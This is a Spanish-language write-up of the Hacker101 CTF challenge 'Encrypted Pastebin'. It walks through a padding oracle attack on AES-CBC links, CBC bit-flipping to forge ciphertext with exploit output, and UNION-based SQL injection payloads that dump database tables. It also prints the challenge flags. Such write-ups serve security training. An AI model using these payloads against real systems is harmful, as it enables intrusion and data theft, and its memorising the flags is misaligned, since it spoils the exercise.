

# HackerOne Hacker101 CTF

## Encrypted Pastebin
### Web, Crypto - Hard (9/flag)


### Hints
* Flag0
	* What are these encrypted links?
	* Encodings like base64 often need to be modified for URLs. Thanks, HTTP
	* What is stopping you from modifying the data? Not having the key is no excuse
* Flag1
	* We talk about this in detail in the Hacker101 Crypto Attacks video
	* Don't think about this in terms of an attack against encryption; all you care about is XOR
* Flag2
	* Remember: XOR
	* Sometimes all it takes is toggling a few bits in the right place
* Flag3
	* You are on your own for this one. Good luck and have fun!

Enviamos el formulario, y se nos redirige a la siguiente URL en la que podemos leer los datos introducidos.
```
/?post=dJ4fmjaOU6tiS9pR2iL9se7rwpNkiEf3k1J2PcxegwXFglqaubU88BoYhrEQGWM9Yv6TSccTFHbVJJyrv6Bx!lvhQEfkxtNf2Ucg0cESVlG5zCDuLldRhmg8TpIvAcb!azaJt2SrkvwxWDE7TagOjk5bM0MjLc!RPiy-jZOfWyUylfLt09LwM9U2fck6kOOIwt6t-bZrfrvHkygbwOkdgQ~~
```

La flag0 la obtenemos al modificar este parámetro y hacer que ocurra un error en la aplicación.


Además, para cada error distinto que generamos, obtenemos algunas lineas del código fuente de la aplicación python.
Leyendo este código vemos cómo la aplicación utiliza AES para cifrar los datos en modo CBC. Ademas, estos datos están codificados en una modificación URL-safe de base64.

```python
main.py
    69  post = json.loads(decryptLink(postCt).decode('utf8'))
    71  if cur.execute('SELECT title, body FROM posts WHERE id=%s' % post['id']) == 0:
    72    abort(404)
    74  body = decryptPayload(post['key'], body)

common.py
    11  b64d = lambda x: base64.decodestring(x.replace('~', '=').replace('!', '/').replace('-', '+'))
  def unpad(data):
    19  padding = data[-1]
    22  raise PaddingException()
  
  def decryptPayload(key, data):
    36  cipher = AES.new(b64d(key), AES.MODE_CBC, iv)
    37  return unpad(cipher.decrypt(data))

  def decryptLink(data):
    46  data = b64d(data)
    48  cipher = AES.new(staticKey, AES.MODE_CBC, iv)
    49  return unpad(cipher.decrypt(data))
```

### Ataque Padding Oracle

Adaptamos el script de este writeup <https://github.com/p4-team/ctf/tree/master/2016-09-16-csaw/neo> y realizamos el ataque de padding oracle para descifrar el texto anterior. También es posible utilizar el código original <https://github.com/mpgn/Padding-oracle-attack/blob/master/exploit.py>.

[padding_oracle.py](scripts/level04-encrypted-pastebin/padding_oracle.py)


Tras unos 30 minutos obtenemos el plaintext con la flag1 y los parametros *id* y *key*.

```
{"flag": "^FLAG^2cce3260ba36b355c591915f60e8315e7badb25b7b8b037c8952922b1513ef1e$FLAG$", "id": "67", "key": "7!c4zYim45oYGG36hvw4Pg~~"}
```

### Generar un bloque cifrado

Por la forma que se construye la cadena de bloques, si conocemos el plaintext del primer bloque, podemos alterar el IV para generar un bloque cifrado.


```
NewIV = IV ^ NewPlaintext ^ Plaintext
NewIV = IV ^ '{"id":"1"}\x06\x06\x06\x06\x06\x06' ^ '{"flag": "^FLAG^'
```

Lanzamos una petición con el nuevo IV y obtenemos la flag2 en el titulo del post.

Aunque esta petición se puede realizar de forma manual, se ha utilizado el script [exploit.py](scripts/level04-encrypted-pastebin/exploit.py)

```
exploit.py '{"id":"1"}'
Plain     7b22666c6167223a20225e464c41475e {"flag": "^FLAG^
New Plain 7b226964223a2231227d060606060606 {"id":"1"}
Crypt     1ac56a5802c831629f494362ae592483
newIV     1ac56550419531699d161b22e41e65db
http://HOST/?post=GsVlUEGVMWmdFhsi5B5l23lnIGk8LFSzidgCLUYaR90~

^FLAG^a88173e606bbbbc09dba45dd03416e54a0475f37f853cfd9948dd471432730db$FLAG$
Attempting to decrypt page with title: ^FLAG^515e0c8d9b161f119a62212600eed8b675d0d26f3b59760e55a96859b5cba6b2$FLAG$
Traceback (most recent call last):
  File "./main.py", line 74, in index
    body = decryptPayload(post['key'], body)
KeyError: 'key'
```

### Generar varios bloques cifrados

Combinando las técnicas anteriores, podemos generar varios bloques cifrados, en el ejemplo cifraremos el json `{"id":"1","key":"RYxUB!nb6e2NKkHpkdPZHA~~"}`

* Paso 1: Descifrar un bloque, por ejemplo 00000000000000000000000000000000. Para ello utilizamos la vulnerabilidad de Padding Oracle.
* Paso 2: Hacemos XOR del bloque descifrado con el ultimo bloque en claro que deseamos inyectar, el resultado se utilizará como ciphertext del penultimo bloque.
* Paso 3: De igual forma, desciframos este bloque, hacemos XOR con el texto en claro y el resultado se utiliza como ciphertext del bloque anterior.
* Paso 4: Repetimos el paso 3 las veces que sea necesario hasta obtener el primer bloque, que se corresponde con el IV.



[exploit2.py](scripts/level04-encrypted-pastebin/exploit2.py)

### Inyección SQL
Si inyectamos una comilla obtenemos un error SQL,
`{"id":"1'"}`
```
Traceback (most recent call last):
  File "./main.py", line 71, in index
    if cur.execute('SELECT title, body FROM posts WHERE id=%s' % post['id']) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

Para aprovechar esta inyección, usaremos la técnica **UNION** para exfiltrar información de la base de datos.

```
{"id":"0 UNION SELECT database(),2"}
level3
```

```
{"id":"0 UNION SELECT group_concat(table_name),2 from information_schema.tables WHERE table_schema='level3'"}
posts,tracking
```

```
{"id":"0 UNION SELECT group_concat(concat(column_name,0x7c,table_name)),2 from information_schema.columns WHERE table_schema='level3'"}
id|posts
title|posts
body|posts
id|tracking
headers|tracking
```

```
{"id":"0 UNION SELECT group_concat(concat(id,0x7c,headers)),2 FROM tracking"}
1|Referer: http://127.0.0.1:14807/?post=jUDnHEBPdOZj-iuRLUHc4Y51TH2ypPt6Cv8faSGi7Lf1hja3540tMHMopZWL865jPa71bVLqBbUJoxiT-a-Iog~~
```
Finalmente, accedemos a la URL con la clave del ID 1 y obtenemos la última flag.
